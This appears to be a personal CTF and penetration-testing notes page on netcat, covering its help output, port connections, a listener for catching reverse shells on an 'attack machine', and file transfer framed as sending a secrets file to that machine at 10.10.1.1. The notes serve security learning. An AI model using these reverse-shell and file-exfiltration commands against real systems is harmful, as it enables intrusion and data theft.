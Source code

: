 # netcat

There isn't much that netcat can't do. It allows different types of communication between devices, open shells on remove machines or something simple like get http from a server. I use it often to send and receive data between machines.

## Usage

Running `nc -h` provided the following output:

```bash
OpenBSD netcat (Debian patchlevel 1.206-1ubuntu1)
usage: nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
	  [-m minttl] [-O length] [-P proxy_username] [-p source_port]
	  [-q seconds] [-s source] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout]
	  [-X proxy_protocol] [-x proxy_address[:port]] 	  [destination] [port]
	Command Summary:
		-4		Use IPv4
		-6		Use IPv6
		-b		Allow broadcast
		-C		Send CRLF as line-ending
		-D		Enable the debug socket option
		-d		Detach from stdin
		-F		Pass socket fd
		-h		This help text
		-I length	TCP receive buffer length
		-i interval	Delay interval for lines sent, ports scanned
		-k		Keep inbound sockets open for multiple connects
		-l		Listen mode, for inbound connects
		-M ttl		Outgoing TTL / Hop Limit
		-m minttl	Minimum incoming TTL / Hop Limit
		-N		Shutdown the network socket after EOF on stdin
		-n		Suppress name/port resolutions
		-O length	TCP send buffer length
		-P proxyuser	Username for proxy authentication
		-p port		Specify local port for remote connects
		-q secs		quit after EOF on stdin and delay of secs
		-r		Randomize remote ports
		-S		Enable the TCP MD5 signature option
		-s source	Local source address
		-T keyword	TOS value
		-t		Answer TELNET negotiation
		-U		Use UNIX domain socket
		-u		UDP mode
		-V rtable	Specify alternate routing table
		-v		Verbose
		-W recvlimit	Terminate after receiving a number of packets
		-w timeout	Timeout for connects and final net reads
		-X proto	Proxy protocol: "4", "5" (SOCKS) or "connect"
		-x addr[:port]	Specify proxy address and port
		-Z		DCCP mode
		-z		Zero-I/O mode [used for scanning]
	Port numbers can be individual or ranges: lo-hi [inclusive]
```

## Connecting

Now and then I'll use netcat to connect to a port on a machine. Usually this happens when I am trying to figure out what is running on the given port. As an example, I am going to connect to the machine at 10.10.1.1 on port 1337. The syntax is very simple:

`nc 10.10.1.1 1337`

From here you can start typing to see how the port handles the message. It varies based on what is listening on that port.

## Listening

This is by far the most common use I have for netcat. I will list on my attack machine so that I can get a reverse shell onto the machine I am attacking. Here is the syntax:

`nc -lvnp 4444`

Here is what the command is doing:

- The `-l` option tells netcat to listen.
- The `-v` option tells netcat to be in verbose mode.
- The `-n` option tells netcat to supress name/port resolutions.
- The `-p` option tells netcat what port to listen on. In this case 4444.

This will output something like the following:

`Listening on 0.0.0.0 4444`

When someone connects, the terminal reads something like the following:

`Connection received on 10.10.1.1 33032`

From here, I can generate a stable shell.

## Sending a File

Netcat has the ability to also send files between machines. I will show how to receive and send a file using netcat. The syntax is very easy. In this example I am sending the secrets.txt to my attack machine that has an ip address of 10.10.1.1.

### Receiver

I need to setup the receiver first. Here is the syntax:

`nc -lp 4444 -q 5 > output.txt < /dev/null`

Here is a explaination about the command:

- The `-l` option tells netcat to listen.
- The `-p` option tells netcat what port to listen on. In this case 4444.
- The `-q` option tells netcat to wait for 5 seconds after the EOF (end of file) is sent.
- The `> output.txt` will save the text from netcat into the output.txt file.
- The `< /dev/null` will send an EOF to the command since we don't want to provide any input from our side.

### Sender

The sending is even easier than the above command. Here is the syntax:

`cat output.txt | nc 10.10.1.1 4444`

Cat will grab the text in output.txt and send it to my attack machine on port 4444.

## POP3

Netcat is the tool I use when interacting with POP3. I have a write up that details interacting with [pop3](../services/pop3.md) in my services section. It covers the some of the more common scenarios that I have found during capture the flag events.

All the examples and interactions use netcat.
